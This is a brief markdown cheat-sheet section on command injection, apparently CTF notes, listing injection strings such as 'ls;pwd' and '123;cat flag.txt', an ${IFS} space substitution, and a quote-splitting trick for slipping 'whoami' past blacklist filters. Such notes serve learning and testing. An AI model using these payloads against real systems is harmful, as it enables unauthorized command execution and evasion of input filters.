 ### Command Injection

---

[command](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
```py
ls;pwd
123;cat flag.txt
ls;pwd&&ls
'ls;cat${IFS}-la'
```

Filtering

```py
use single or double quotes to bypass blacklists
"w"h"o"am"i"
```

